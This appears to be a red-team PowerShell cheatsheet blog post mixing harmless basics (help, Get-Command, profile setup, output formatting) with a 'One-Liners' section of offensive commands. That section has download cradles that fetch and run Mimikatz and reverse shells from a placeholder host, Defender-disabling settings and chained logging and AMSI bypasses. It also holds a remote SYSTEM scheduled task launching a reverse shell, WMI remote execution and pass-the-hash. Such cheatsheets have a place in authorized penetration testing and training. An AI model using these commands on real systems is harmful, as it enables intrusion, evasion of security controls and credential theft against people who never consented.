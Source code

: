 ```yaml
---
author:
  name: "Piyush Verma"
date: 2021-10-29
linktitle: PowerShell Cheatsheet
type:
- post
- posts
title: PowerShell Cheatsheet
draft: false
toc: true
images:
tags:
  - PowerShell
  - cheatsheet
  - oneliner
  - redteam
weight: 10
---
```


This cheatsheet will continue to receive updates. 

## PowerShell (PS) 101 commands
---

Please note that all of the following commands are run from a PowerShell prompt.

Retrieve the PowerShell Version
```powershell
 $PSVersionTable 
 ```

List help about a cmdlet in a readable format
```powershell 
Get-Help <cmdlet> | more
```

List cmdlets which contain the keyword 'service' in them
```powershell
Get-Command -CommandType Cmdlet | ?{$_.Name -match "service"}
```
List available commands in the current PS session and their respective details which contain the keyword 'command' in them:
```powershell
Get-Command -CommandType All -ShowCommandInfo | ?{$_.Name -match "command"}
```

Wildcards can be used to match as well. 
```powershell
Get-Command -CommandType All | ?{$_.Name -match "serv*"}
```

Count the number of commands in the output 
```powershell
(Get-Command -CommandType All | ?{$_.Name -match "command"}).count
```

List all cmdlets with PKI as source
```powershell
Get-Command -CommandType Cmdlet | ?{$_.Source -match "PKI"}
```

List all commands in a module by running
```powershell
Get-Command -Module <module name>
```

## Handy Tweaks
---

When you launch PowerShell session, it opens in the user's home directory by default. This behavior can be modified so that new PS sessions open in your custom directory. Here is how:

```powershell
# Check the value of $PROFILE variable.

PS C:\Windows\system32> $PROFILE
C:\Users\XXXXXXXXX\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1

# Create the .ps1 file returned from the $PROFILE variable

PS C:\Windows\system32> New-Item -Path $PROFILE -Type File -Force

# To set and change the default working directory, open the above 'Microsoft.PowerShell_profile.ps1' in ISE and add the following line with your desired path.

Set-location <Desired Path>
```


## One-Liners
---

### Creating a firewall rule exception in Windows:
```powershell
New-NetFirewallRule -DisplayName 'HTTP-Inbound' -Profile @('Domain', 'Private') -Direction Inbound -Action Allow -Protocol TCP -LocalPort @('80', '443')

New-NetFirewallRule -DisplayName '447-Inbound' -Profile @('Domain', 'Private') -Direction Inbound -Action Allow -Protocol TCP -LocalPort @('447')
```

### Download cradles
```powershell
# Option 1 - Using IEX (compatible with older versions of PS)

powershell iex (New-Object Net.WebClient).DownloadString("http://192.168.X.X/Invoke-MimikatzEX.ps1")

# Option 2 - Using IWR (works on current version of PS)

iwr -UseBasicparsing http://192.168.X.X/Invoke-PowerShellRev.ps1 | iex
```

### Creating a Credential object
```powershell
$SecPassword = ConvertTo-SecureString 'XXXXXXXXXXXX' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword)
```

### Decode Base64
```powershell
$EncodedText = “VABoA....”
$DecodedText = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($EncodedText))
$DecodedText
```

### Disable AV
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```
### Encode Reverse Shell
```powershell
. .\Invoke-Encode.ps1

Invoke-Encode -DataToEncode .\Invoke-PowerShellTcpOneLine.ps1 -OutCommand

# Open a listener (nc) on one end and on another shell use: 

powershell -e <content of encodedcommand.txt>
```

### Reverse shell using a Batch file
```powershell
# Create reverse.bat file

$Contents = 'powershell.exe -c iex ((New-Object Net.WebClient).DownloadString(''http://192.168.X.X/Invoke-PowerShellRev8080.ps1''))'
Out-File -Encoding Ascii -InputObject $Contents -FilePath C:\RTL\Tools\reverse8080.bat

# Call reverse.bat file

## Option 1
.rotten.exe * reverse.bat

## Option 2
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:srv.contoso.local /ntlm:NTLMHASH /run:C:\users\appadmin\desktop\reverse.bat"'
```

### Scheduled tasks
```powershell
schtasks /create /S dc.contoso.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "UserX" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.X.X/Invoke-PowerShellRev8080.ps1''')'"

schtasks /Run /S dc.contoso.local /TN "UserX"
```

### Invoke-WMIMethod - Command Execution (Reverse shell, etc.)
```powershell
Invoke-WmiMethod win32_process -ComputerName dc.contoso.local -name create -argumentlist "powershell.exe -e $encodedCommand"
```

### Chain powershell commands to Bypass SBLogging, then AMSIBypass and then get reverse-shell
```powershell
powershell -c "iex (iwr -UseBasicParsing http://192.168.X.X/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.X.X/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.X.X/Invoke-PowerShellTcpEx.ps1)
```

### Check local admin access via Invoke-Command
```powershell
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName (Get-Content ..\Output\computers.txt) 2>$null
```

### Over pass-the-hash
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:srv.contoso.local /ntlm:NTLMHASH /run:powershell.exe"'
```

## Playing with command output
---

### 1. Expand redacted output

You might notice that sometimes the output returned by PS commands is redacted with "...". This can be corrected by modifying the value of the PS variable - ```$FormatEnumerationLimit``` as follows.

``` powershell
$FormatEnumerationLimit = -1
```

### 2. Using 'more' command

Piping output of a command to ``` more ``` command makes it readable from the first line. This is equivalent to ``` less``` command in Linux/Unix.

``` powershell
Get-Process | more
```

### 3. Using -ExpandProperty

``` powershell
Get-CimClass -Namespace root/SecurityCenter2 -MethodName * | select -ExpandProperty CimClassMethods
```

### 4. Exporting output in a CSV format

Sometimes (more than we'd think) having the output in a CSV file is a blessing. Here is how it can be done using ```Export-CSV``` cmdlet.

``` powershell
Get-Date | Select-Object -Property DateTime, Day, DayOfWeek, DayOfYear | Export-Csv -Path .\DateTime.csv -NoTypeInformation
```